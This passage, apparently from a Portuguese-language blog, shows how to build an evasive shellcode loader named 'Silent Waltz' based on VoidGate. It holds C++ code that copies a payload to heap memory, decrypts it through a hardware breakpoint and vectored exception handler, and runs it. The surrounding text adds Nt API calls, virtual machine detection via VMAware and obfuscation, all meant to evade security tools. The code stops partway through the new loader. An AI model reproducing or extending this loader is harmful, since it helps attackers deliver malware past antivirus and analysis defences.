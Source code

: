 ```cpp
    memset(heap_memory, '\x90', memory_size);
    PVOID payload_entry = (PBYTE)heap_memory + SHELLCODE_PADDING;
    memcpy(payload_entry, payload, payload_size);

    payload_base = (DWORD64)payload_entry;
    DWORD status = SetHardwareBreakpoint(payload_entry);
    PVOID veh = AddVectoredExceptionHandler(1, &VehDecryptHeapAsm);
    if (veh)
    {
        std::cout << "Executing the payload with VEH ASM decryption... This may take a while depending on the efficiency of the shellcode..." << std::endl;
        VoidGate vg = (VoidGate)payload_entry;
        vg();
    }

    //Cleanup
    VirtualFree(heap_memory, 0, MEM_RELEASE);
    return EXIT_SUCCESS;
}
```

Como podemos ver, o projeto utiliza APIs como `VirtualAlloc`, `memcpy`, `VirtualFree`. Então, podemos fazer o uso de APIs Nt. Para quem se esqueceu do que são, abaixo uma imagem para melhor entendimento:

![](https://telegra.ph/file/4d8fb25cc244a8274caaa.png)

## Detecção de máquinas virtuais

Bom, como eu sou um belo de um preguiçoso e não quero ficar sofrendo pensando em métodos de detecção de máquinas virtuais, vou utilizar o projeto [VMAware](https://github.com/kernelwernel/VMAware) que é uma biblioteca C++ multiplataforma para detecção de máquinas virtuais que apresenta mais de 100 técnicas exclusivas de detecção de VM para facilitar nossa vida.

Bom, o código do VoidGate vai ser modificado para utilizar APIs NT. Note que já vou estar utilizando o Obfusheader, e também lembrando que não vi necessidade de alterar nada no `Voidgate.cpp` e no `Voidgate.h` e sim o nome do loader será Silent Waltz, em referência a Kaito de HxH pq? também não sei.

```cpp
#include <Windows.h>
#include <iostream>
#include <string>
#include <psapi.h>
#include <ntstatus.h>

#include "payload.h"
#include "Voidgate.h"
#include "obfusheader.h"
#include "vmaware_check.hpp"

#define NT_SUCCESS(Status) ((NTSTATUS)(Status) >= 0)

// link: https://learn.microsoft.com/en-us/windows/console/console-screen-buffers#character-attributes
void SetConsoleColor(WORD color) {
	HANDLE hConsole = GetStdHandle(STD_OUTPUT_HANDLE);
	SetConsoleTextAttribute(hConsole, color);
}

// link: http://undocumented.ntinternals.net/
typedef NTSTATUS(NTAPI* NtAllocateVirtualMemory_t)(
    HANDLE ProcessHandle,
    PVOID* BaseAddress,
```